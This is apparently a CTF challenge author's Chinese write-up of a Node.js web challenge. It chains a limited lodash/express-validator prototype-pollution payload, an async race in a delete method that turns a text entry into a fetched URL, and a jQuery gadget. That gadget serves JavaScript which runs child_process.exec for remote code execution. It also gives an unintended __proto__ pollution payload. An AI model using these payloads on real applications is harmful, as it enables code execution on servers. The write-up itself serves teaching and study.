

## 前言

这道题原型链污染的考点设计初衷是出题的时候搜寻到了很多基础库的原型链污染漏洞，但是如果直接把基础库的漏洞拿过来写在题目逻辑里太容易被发现了，就想怎么让这个环节更有意思一点，于是就去审了几个依赖于有漏洞的基础组件的上层功能库，找到了`express-validator`这个基于`lodash`的无法控制value的原型链污染。这个限制又让我觉得此前的原型链污染是不是确实太友好了，如果只给有限的污染能力我们是不是也可以做一些有意思的事情呢？基于这些想法，设计了这道题目。

三个js文件对应三个考点：

app.js -> 有限的原型链污染

entity.js -> 异步产生的bug

utils.js -> jQuery.js RCE gadget

下面是简易版wp。详细分析见[这里](./writeup.md)

## 预期解

### #1 原型链污染

通过任意一个POST方式的API发送一个带下面字段的请求，污染crossDomain为空字符串`''`

```
{"\".constructor.prototype[\"crossDomain": "1   "}
```

结果

```javascript
Object.prototype.crossDomain = ''
```

### #2 异步逻辑错误篡改block的type

DataRepository类的D方法会进行blocks的递归删除，

```javascript
	D(id) {
		let di, dt
		for (const index in this.datas) {
			if (this.datas[index].id === id) {
				dt = this.types[index]
				this.types.splice(index, 1)
				di = index
			}
		}
		if (dt === 'url') {
			requests(this.datas[di].block, "DELETE").finally(() => {
				this.datas = this.datas.filter((value) => value.id !== id)
			})
		} else {
			this.datas = this.datas.filter((value) => value.id !== id)
		}
	}
```

但是删除的时候是先pop了`this.types`中的内容，然后把`this.datas`内容的删除放到了一个异步函数`requests`中去。由于异步函数的特性，导致了两个数组的信息存在一个时间差内的不一致，确切的说就是`this.datas`数组在某段时间内比`this.types`长一点。第二个考点就是要抓住这个时间窗口，构造一段数据使得本来是`text`类型的内容，从`this.types`中取出来的类型确实`url`，从而控制`requests`函数的url参数。

具体的构造方式就是在`this.datas`比`this.types`长n个的这个时间段内，先POST 1个`text`类型的数据，内容是我们自己的url，然后POST n个url类型的数据，内容符合要求即可。这时我们第一次POST的`text`类型的url，从`this.types`取出来就是`url`。

### #3 触发jQuery中的RCE Gadget

访问我们上一步POST的那个`text`类型的数据，让题目访问我们自己的url。url指向的返回头和内容如下：

```bash
HTTP/1.1 200 OK
Content-Type: text/javascript; charset=utf-8
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: X-Requested-With, crossDomain
Content-Length: 133

this.constructor.constructor('return process.mainModule.require("child_process").exec("open /System/Applications/Calculator.app")')()
```

成功弹出`calculator！`



## 非预期

看了下wp，0ops的师傅竟然做到了任意原型链污染（惊

由于手贱加了个json中间件，允许传入object，导致可以污染任意值，payload如下

```
{"block": {"__proto__": {"a": 123}}, "block\"].__proto__[\"a": 123}
```

相当于劫持了value，具体师傅们自己分析啦。

师傅们tql

## 总结

原型链污染漏洞的强大就不必多说了，各位师傅的gadget也是五花八门让小弟学到了很多。我想说的是虽然各种基础库的原型链污染漏洞层出不穷值得关注，但是依赖于基础库的上层模块暴露出来的攻击面也同样值得注意。
